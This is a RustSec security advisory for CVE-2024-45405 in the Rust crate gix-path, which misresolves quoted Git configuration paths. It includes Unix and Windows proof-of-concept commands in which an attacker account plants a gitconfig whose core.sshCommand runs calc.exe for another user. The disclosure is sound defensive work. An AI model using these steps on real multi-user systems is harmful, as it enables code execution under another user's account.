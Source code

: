 ```toml
[advisory]
id = "RUSTSEC-0000-0000"
package = "gix-path"
date = "2024-09-06"
url = "https://github.com/Byron/gitoxide/security/advisories/GHSA-m8rp-vv92-46c7"
categories = ["code-execution", "privilege-escalation"]
cvss = "CVSS:3.1/AV:L/AC:H/PR:L/UI:R/S:U/C:H/I:H/A:N"
keywords = ["escape-sequences"]
aliases = ["CVE-2024-45405", "GHSA-m8rp-vv92-46c7"]
license = "CC0-1.0"

[affected.functions]
"gix_path::env::installation_config" = ["*"]
"gix_path::env::installation_config_prefix" = ["*"]

[versions]
patched = [">= 0.10.11"]
```

# gix-path improperly resolves configuration path reported by Git

### Summary

`gix-path` runs `git` to find the path of a configuration file associated with the `git` installation, but improperly resolves paths containing unusual or non-ASCII characters, in rare cases enabling a local attacker to inject configuration leading to code execution.

### Details

In `gix_path::env`, the underlying implementation of the `installation_config` and `installation_config_prefix` functions calls `git config -l --show-origin` to find the path of a file to treat as belonging to the `git` installation.

Affected versions of `gix-path` do not pass `-z`/`--null` to cause `git` to report literal paths ([`650a1b5`](https://github.com/Byron/gitoxide/commit/650a1b5cf25e086197cc55a68525a411e1c28031)). Instead, to cover the occasional case that `git` outputs a quoted path, they attempt to parse the path by stripping the quotation marks:

<https://github.com/Byron/gitoxide/blob/1cfe577d461293879e91538dbc4bbfe01722e1e8/gix-path/src/env/git/mod.rs#L138-L142>

The problem is that, when a path is quoted, it may change in substantial ways beyond the concatenation of quotation marks. If not reversed, these changes can result in another valid path that is not equivalent to the original.

This is not limited to paths with unusual characters such as quotation marks or newlines. Unless `git` is explicitly configured with `core.quotePath` set to `false`, it also happens when the path contains most non-ASCII characters, including accented or non-English letters. For example, `é` is transformed to `\303\251`, with literal backslashes. (This is an octal representation of the bytes in its UTF-8 encoding. This behavior is not limited to systems that encode paths with UTF-8 on disk.)

Rarely, the configuration file `gix-path` wrongly attempts to open can be created by an attacker who has a limited user account on the system. The attacker would often need to request an account username tailored to carrying out the attack.

### PoC

#### Quick demonstration on Unix

On a Unix-like system in which Git supports no higher scope than `system` for configuration variables (i.e., not on macOS with Apple Git), in a locale that supports UTF-8, with `gitoxide` installed, run:

```sh
mkdir myrepo
cd myrepo
git init
printf '[real]\n\trealvar = realval\n' > 'é'
printf '[fake]\n\tfakevar = fakeval\n' > '\303\251'
GIT_CONFIG_SYSTEM='é' gix config
```

If the above conditions are satisfied and the `gix` command was built against an affected version of `gix-path`, then the last command's output looks something like this:

```text
# From '\303\251' (GitInstallation)
[fake]
        fakevar = fakeval

# From 'é' (System)
[real]
        realvar = realval

# From '/home/ubuntu/.gitconfig' (User)
[init]
        defaultBranch = main

# From './.git/config' (Local)
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
```

#### Demonstration across user accounts on Windows

On a test system running Windows on which Git for Windows is *not* installed system-wide—resembling a scenario in which users who wish to use Git are expected to install it themselves for their accounts—create two accounts, with these usernames:

- *Renée*, the target of the attack. This user may be a limited user or an administrator. Its user profile directory is assumed to be `C:\Users\Renée`.
- *Ren*, the user who carries out the attack. This user should be a limited user, since an administrator would not need to exploit this vulnerability to inject configuration. Its user profile directory is assumed to be `C:\Users\Ren`.

As *Ren*, run these commands in PowerShell:

```powershell
$d = "$HOME\303\251e\AppData\Local\Programs\Git\etc"
mkdir $d
git config --file $d\gitconfig core.sshCommand calc.exe
icacls $HOME\303 /grant 'Renée:(RX)' /T
```

(The `gitconfig` file can instead be written manually, in which case *Ren* need not have `git`.)

As *Renée*:

1. Install Git for Windows in the default location for non-systemwide installations, which for that user account is inside `C:\Users\Renée\AppData\Local\Programs`. For a non-administrative installation, Git for Windows will pick this location automatically. Allow the installer to place the directory containing `git` in the user's `PATH`, as it does by default.

   (The scenario can be modified for any location the attacker can predict. So, for example, *Renée* can install Git for Windows with [`scoop`](https://scoop.sh/), and *Ren* could carry out the attack with correspondingly modified path components in place of `AppData\Local\Programs\Git`.)

2. Install `gitoxide` using any common technique, such as by [installing Rust](https://www.rust-lang.org/tools/install) and then running `cargo install gitoxide`.

3. Open a PowerShell window and run a `gix` command that attempts to run the SSH client for transport. For example:

   ```pwsh
   gix clone ssh://localhost/myrepo.git
   ```

   At least one, and usually two, instances of the Windows calculator will pop up. This happens because `calc.exe` was configured in the fake configuration file the user *Ren* was able to cause to be used, by placing it at the location `gix-path` wrongly resolved the path of *Renée*'s own configuration file to.

The `gitconfig` file written by the attacker can be adjusted with an arbitrary choice of payload, or to set other configuration variables.

### Impact

On a single-user system, it is not possible to exploit this, unless `GIT_CONFIG_SYSTEM` and `GIT_CONFIG_GLOBAL` have been set to unusual values or Git has been installed in an unusual way. Such a scenario is not expected.

Exploitation is unlikely even on a multi-user system, though it is plausible in some uncommon configurations or use cases. It is especially unlikely with Apple Git on macOS, due to its very high scoped configuration in `/Library` or `/Applications` that would be detected instead, as in [CVE-2024-45305](https://github.com/advisories/GHSA-v26r-4c9c-h3j6).

The likelihood of exploitation may be higher on Windows, where attacks such as those shown in the Windows proof-of-concept above can be performed due to the status of `\` as a directory separator, and where there is no restriction on usernames containing accented or non-English letters (though the latter is also permitted on some other systems). Even then, complex user interaction is required. In most cases, a system administrator would have to approve an innocuous-seeming username, and then the targeted user (who could be the same or a different user) would have to use an application that uses `gix-path`.

In general, exploitation is more likely to succeed if at least one of the following applies:

- Users are expected to install `git` themselves, and are likely to do so in predictable locations.
- Locations where `git` is installed, whether due to usernames in their paths or otherwise, contain characters that `git` quotes by default in paths, such as non-English letters and accented letters.
- A custom `system`-scope configuration file is specified with the `GIT_CONFIG_SYSTEM` environment variable, and its path is in an unusual location or has strangely named components.
- A `system`-scope configuration file is absent, empty, or suppressed by means other than `GIT_CONFIG_NOSYSTEM`. Currently, `gix-path` can treat a `global`-scope configuration file as belonging to the installation if no higher scope configuration file is available. This increases the likelihood of exploitation even on a system where `git` is installed system-wide in an ordinary way.

However, exploitation is expected to be very difficult even under any combination of those factors.

Although the effect here is similar to [CVE-2022-24765](https://github.com/git-for-windows/git/security/advisories/GHSA-vw2c-22j4-2fh2) once exploited, a greater degree of user interaction would usually be required, and the attack complexity here is much higher because the necessary conditions are uncommon and challenging to predict.
